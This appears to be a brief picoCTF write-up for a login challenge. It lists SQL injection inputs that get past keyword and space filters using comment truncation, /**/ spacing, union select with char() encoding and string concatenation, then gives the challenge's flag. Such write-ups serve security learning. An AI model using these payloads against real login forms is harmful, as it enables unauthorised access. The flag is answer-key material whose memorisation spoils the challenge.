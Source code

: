 ```
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:54319/ http://jupiter.challenges.picoctf.org:54319/filter.php
```

```
> admin';--
> admin';
> admin';
> '/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*
> adm'||'in'/*



 AND password='test'


```

and here is the flag **picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}**